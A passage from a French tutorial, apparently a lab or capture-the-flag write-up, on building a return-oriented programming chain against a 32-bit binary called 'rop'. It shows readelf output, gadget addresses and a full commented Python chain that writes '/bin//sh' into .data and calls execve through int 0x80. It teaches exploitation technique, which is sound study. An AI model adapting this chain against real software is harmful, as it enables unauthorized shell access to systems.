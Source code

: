 Nous sommes donc en mesure d'écrire "/bin/sh" quelque part en mémoire, par exemple dans .data qui ne bouge pas malgré l'ASLR.

```sh
$ readelf -S rop | grep " .data "
  [23] .data             PROGBITS        080ea000 0a1000 000f20 00  WA  0   0 32
```

`.data` possède le flag `W` comme **W**ritable et se situe à l'adresse `0x080ea000`.

Enfin, nous devons trouver des gadgets pour contrôler nos registres `EBX` et `ECX` (car nous avons déjà trouvé un gadget pour `EDX` lors du _write-what-where_). Vous avez compris la technique, en voici deux :

```sh
0x080de7ad : pop ecx ; ret
0x080481c9 : pop ebx ; ret
```

Bien sûr, pour pouvoir exécuter tout ça, il faut faire un appel à une instruction `int 0x80`

```sh
0x0806c985 : int 0x80
```

Et bien c'est parfait, nous avons maintenant tous les gadgets en main pour pouvoir effectuer notre ROP. Pour la construction de la chaine, nous allons procéder comme suit :

* Placer "/bin/sh" au début de `.data`
* Placer des octets nuls juste après, pour que la chaine "/bin/sh" se termine par un caractère nul.
* Mettre l'adresse de "/bin/sh" dans `EBX`
* Mettre des `0x00` dans ECX et EDX
* Mettre 11 (0xb) dans `EAX` (numéro du syscall)
* Faire un appel à `int 0x80`


Voici un code python qui prépare le débordement en chainant les gadgets.

```python
p =  pack('<I', 0x0806ed1a) 		# pop edx ; ret
p += pack('<I', 0x080ea000) 		# Dans edx, nous mettons l'adresse du début de .data
p += pack('<I', 0x080b8056) 		# pop eax ; ret
p += '/bin'				# Dans eax, nous mettons la chaine de caractères "/bin"
p += pack('<I', 0x080546db) 		# mov dword ptr [edx], eax ; ret | Ce qui permet d'écrire "/bin" dans .data
p += pack('<I', 0x0806ed1a) 		# pop edx ; ret
p += pack('<I', 0x080ea004) 		# Dans edx, nous mettons l'adresse de .data + 4 pour prévoir "//sh"
p += pack('<I', 0x080b8056) 		# pop eax ; ret
p += '//sh'				# Nous mettons "//sh" dans eax
p += pack('<I', 0x080546db) 		# mov dword ptr [edx], eax ; ret | Et nous écrivons "//sh" juste après "/bin"
p += pack('<I', 0x0806ed1a) 		# pop edx ; ret
p += pack('<I', 0x080ea008) 		# Dans edx, nous mettons l'adresse de .data + 8, donc après la chaine de caractères "/bin//sh"
p += pack('<I', 0x08049323) 		# xor eax, eax ; ret
p += pack('<I', 0x080546db) 		# mov dword ptr [edx], eax ; ret | Et on s'assure que cet emplacement contient des 0x00 pour terminer la chaine de caractères
p += pack('<I', 0x080481c9) 		# pop ebx ; ret
p += pack('<I', 0x080ea000) 		# Dans ebx, nous mettons l'adresse du début de .data, qui contient "/bin//sh" suivi de null bytes
p += pack('<I', 0x080de7ad) 		# pop ecx ; ret
p += pack('<I', 0x00000000) 		# On met ecx à 0
p += pack('<I', 0x0806ed1a) 		# pop edx ; ret
p += pack('<I', 0x00000000) 		# On met edx à 0
p += pack('<I', 0x08049323) 		# xor eax, eax ; ret
for i in range(11):			# Afin d'avoir eax = 11, on boucle 11 fois
	p += pack('<I', 0x0804812c)	# inc eax ; ret
p += pack('<I', 0x0806c985) 		# int 0x80
```

